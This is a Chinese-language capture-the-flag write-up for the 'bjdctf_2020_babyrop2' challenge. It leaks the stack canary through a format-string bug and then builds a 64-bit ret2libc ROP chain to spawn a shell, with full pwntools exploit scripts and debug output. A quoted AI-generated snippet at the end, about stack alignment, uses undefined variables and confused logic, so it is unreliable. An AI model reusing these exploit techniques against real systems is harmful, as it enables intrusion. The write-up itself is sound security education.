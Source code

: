 ```yaml
---
title: 'bjdctf_2020_babyrop2'
date: 2024-01-01 13:00:00 +0800
categories: [format,canary,64bit,leak_libc]
tags: [ctf,pwn]
---
```


```shell
bamuwe@qianenzhao:~$ checksec bjdctf_2020_babyrop2
[*] '/home/bamuwe/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`canary`保护机制:在局部变量和返回地址间插入一个随机数,通过检测这个随机数判断是否存在栈溢出或修改.

![image-20240101130851524](../assets/img/old_imgs/image-20240101130851524.png)

![image-20240101130915897](../assets/img/old_imgs/image-20240101130915897.png)

> 红框位置就是`canary`值存在的位置

![image-20240101131022383](../assets/img/old_imgs/image-20240101131022383.png)

> `gift`函数

![image-20240101131040053](../assets/img/old_imgs/image-20240101131040053.png)

> `vuln`函数

1. 存在`canary`机制考虑怎么泄露`canary`,在`gift`函数中存在一个格式化字符漏洞可以利用

   - 因为这里对输入长度做了限制,所以不能用常规`%8x%8x%8x...`来泄露偏移量,但是我们可以用`%n$p`来泄露偏移量,`n`是偏移的位置,`$p`是打印该位置上的值

     ```python
     from pwn import *
     context.log_level = 'debug'
     io = process('./bjdctf_2020_babyrop2')
     io.sendlineafter(b"I'll give u some gift to help u!\n",b'A%6$p')
     io.interactive()
     ```

     ```shell
     [DEBUG] Received 0x44 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%6$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x36 bytes:
         b'A0x7024362541\n'
         b'Pull up your sword and tell me u story!\n'
     A0x7024362541
     Pull up your sword and tell me u story!
     $
     ```

     > 当`n`等于`6`时看到了`0x41`,确定偏移为`6`

   - 根据上面提到的,我们知道`canary`在栈的末尾,所以把偏移往后移一位就可以得到`canary`的值

     ```shell
     [DEBUG] Received 0x23 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
     [DEBUG] Received 0x21 bytes:
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%7$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x13 bytes:
         b'A0x6b3d526f8ba61400'
     $
     ```

     ```shell
     pwndbg> stack 0x20
     00:0000│ rsp 0x7ffd2b15b170 ◂— 0x7024372541 /* 'A%7$p' */
     01:0008│     0x7ffd2b15b178 ◂— 0x6b3d526f8ba61400
     02:0010│ rbp 0x7ffd2b15b180 —▸ 0x7ffd2b15b1a0 ◂— 0x1
     03:0018│     0x7ffd2b15b188 —▸ 0x400905 (main+43) ◂— mov eax, 0
     ```

2. 获得了`canary`之后就是常规的`64`位泄露`libc`,但是在填充栈的时候有一些不同,我们要注意覆盖`canary`的位置

   - ![image-20240101132652204](../assets/img/old_imgs/image-20240101132652204.png)

     > 通过ida我们看到`buf`的栈空间为`0x18`

     栈填充部分如下

     | rbp  |         |        |       |
     | :--: | :-----: | :----: | :---: |
     |      | padding |        | 0x18  |
     |      |         | canary | value |
     |      |         | leave  |  0x8  |
     |      |         |  ret   |       |

     泄露`libc`完整`payload`

     | rbp  |           |        |       |            |
     | :--: | :-------: | :----: | :---: | :--------: |
     |      |  padding  |        | 0x18  |            |
     |      |           | canary | value |            |
     |      |           | leave  |  0x8  |            |
     |      |  pop_rdi  |  ret   |       | ROPgadgets |
     |      | puts_got  |  ret   |       |            |
     |      | puts_plt  |  ret   |       |            |
     |      | vuln_addr |  ret   |       |            |

3. 得到`libc`构造`payload`得到`shell`

```python
#远程脚本
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node5.buuoj.cn',26462)
elf = ELF('./bjdctf_2020_babyrop2')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
Liboffset = puts_addr - Lib.dump('puts')
sys_addr = Liboffset + Lib.dump('system')
bin_sh_addr = Liboffset + Lib.dump('str_bin_sh')
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(sys_addr)+p64(elf.sym['main'])
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

```python
#本地脚本
from pwn import *
context.log_level = 'debug'
#io = process('./bjdctf_2020_babyrop2')
io = gdb.debug('./bjdctf_2020_babyrop2','break vuln')
elf = ELF('./bjdctf_2020_babyrop2')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))
Liboffset = puts_addr - Lib.sym['puts']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(0x00000000004005f9)+p64(sys_addr)
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

由于我本地环境是`Wsl-Ubuntu-22.04`会出现本地打不通的情况,所以需要在调用`system`前加上`ret`即`+p64(0x00000000004005f9)`填充内存空间,具体原因参考如下

```
环境差异：
•	libc版本不同：不同版本的glibc库在处理函数调用时可能存在差异，如系统调用、格式化字符串解析、堆管理等。例如，上述信息提及，glibc 2.27及更高版本的system()函数内部实现可能使用了xmm寄存器，要求内存对齐，如果本地环境与远程环境的glibc版本不一致，可能导致利用失败。
```

通过调试可以发现,本地不通确实是因为调用了`xmm`寄存器
```shell
─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
   0x7faee5924967 <do_system+103>    mov    qword ptr [rsp + 188h], 0
 ► 0x7faee5924973 <do_system+115>    movaps xmmword ptr [rsp], xmm1
   0x7faee5924977 <do_system+119>    lock cmpxchg dword ptr [rip + 1cae01h], edx
   0x7faee592497f <do_system+127>    jne    7faee5924c30h                 <do_system+816>
```

我们需要让`system`的地址正好落在`16`字节的栈边界,从根本(原理)上改变是很困难的,但是可以通过填充`rop`比如`nop,ret`来填充需要的字节.

解决办法:在`system`函数地址前加一个或多个`ret`尝试打通本地

参考通义千问回答的代码:

>在使用pwntools编写exploit脚本时，确实可以通过ROP（Return-Oriented Programming）技术来实现对齐。如果你知道目标地址必须是对齐的，例如16字节对齐，那么在构造ROP链的过程中，可以插入适当的NOP sled或者找到内存中一个合适的返回指令片段，确保payload中的关键地址（比如system函数的地址或其所在plt/got表项的地址）在其之前填充足够的字节以达到对齐要求。
>
>例如，在ropchain构建过程中：
>
>```python
>
>from pwn import *
>
># 假设已经得到了elf、libc等上下文信息
>
>context.arch = 'amd64'  # 设置架构为x86_64
>
># ... 省略其他代码，如连接到远程服务器、获取shellcode等
>
># 找到system gadget和其他需要使用的gadgets
>pop_rdi = elf.gadgets['pop rdi; ret']  # 用于放置参数
>syscall = elf.plt['syscall']  # 或者直接用系统调用号对应的gadget
>
># 确保system地址是16字节对齐的
>system_addr = next((addr for addr in gadgets if addr % 16 == 0 and gadgets[addr].endswith('ret')), None)
>if not system_addr:
>    # 如果没有找到对齐的system gadget，可能需要创建一个填充的ROP链
>    padding = b'\x90' * (16 - (next_gadget_address % 16))  # 使用NOP sled填充
>    rop += padding
>    system_addr = next_gadget_address + len(padding)
>
>rop += p64(pop_rdi)  # 将"/bin/sh"字符串地址放入rdi
>rop += p64(binary.search('/bin/sh'))  # "/bin/sh"的地址
>rop += p64(system_addr)  # 调用system gadget
>
># 发送ROP链
>payload = b'A'*overflow_size + rop
>io.send(payload)
>```
>
>
>请注意上述代码仅为示例，实际利用中需要根据具体环境和栈布局来调整。在实际场景中，如果是因为system()函数内部实现要求xmm寄存器对齐，则通常会检查并保证栈上相关数据的对齐，而不仅仅是system函数本身的地址对齐。在这种情况下，你可能需要更深入地分析程序行为，并且可能需要结合额外的技术手段（如寻找特定类型的gadget）来构造满足条件的ROP链。
